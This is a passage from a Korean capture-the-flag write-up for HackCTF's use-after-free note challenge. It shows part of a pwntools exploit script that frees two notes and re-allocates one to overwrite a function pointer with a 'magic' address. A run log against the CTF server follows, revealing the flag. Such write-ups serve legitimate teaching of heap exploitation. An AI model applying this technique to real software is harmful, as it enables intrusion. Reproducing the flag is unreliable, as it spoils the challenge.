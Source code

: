 def delete(index):
        p.recvuntil(' :')
        p.sendline('2')
        p.recvuntil(' :')
        p.sendline(index)

def pt(index):
        p.recvuntil(' :')
        p.sendline('3')
        p.recvuntil(' :')
        p.sendline(index)


add('8','AAAAAA')
add('8','BBBBBB')
delete('1')
delete('0')
add('16','CCCCCCCCCCCC')
add('8',p32(magic))
pt('1')

p.interactive()
</pre>

flag는 다음과 같다.

<pre>
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/21.UAF$ python ex.py
[+] Opening connection to ctf.j0n9hyun.xyz on port 3020: Done
[*] Switching to interactive mode
HackCTF{n0w_17'5_71m3_70_h34p_57udy}
----------------------
        U-A-F         
☆★ 종현이와 함께하는★☆ 
 ★☆  엉덩이 공부 ☆★    
----------------------
 1. 노트 추가          
 2. 노트 삭제       
 3. 노트 출력        
 4. 탈출              
----------------------
입력 :$  
</pre>

**flag: HackCTF{n0w_17'5_71m3_70_h34p_57udy}**